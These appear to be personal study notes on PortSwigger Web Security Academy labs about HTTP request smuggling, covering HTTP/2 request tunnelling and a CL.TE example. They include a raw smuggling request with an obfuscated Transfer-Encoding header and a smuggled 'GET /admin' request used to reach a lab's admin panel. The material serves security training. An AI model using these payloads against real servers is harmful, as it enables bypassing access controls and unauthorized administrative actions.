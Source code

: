 
then use the custom python intruder

---

 ### Bypassing access controls via HTTP/2 request tunnelling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming header names. To solve the lab, access the admin panel at `/admin` as the `administrator` user and delete `carlos`.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to [request tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling).


The front-end server appends a series of [client authentication headers](https://portswigger.net/web-security/request-smuggling/exploiting#bypassing-client-authentication) to incoming requests. 
You need to find a way of leaking these.



-----------------------

# Prep for presentation:


Testing for CL.TE :  the front end server checks Content-Length
The backend server prioritizes the Transfer-Encoding header : Chuncked 
and ignores the Content-Length
![[REQUEST_SMUGGLING_BREAKDOWN_BLACKBOARD.png]]

![](file:///home/linux/Pictures/HTTP_REQ_SMUGGLING_Whiteboard.png)



## Same concept then when requesting an admin endpoint

1st request
```
POST / HTTP/1.1
Host: acb01f791f358360c0f7901000650001.web-security-academy.net
Cookie: session=eu4TfRuSOBg8KLcGj6LaQE6C3gVsh6Ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0
```

```
GET /admin HTTP/1.1
X-Ignore: X
```
And this is the 2nd request that was "smuggled" in
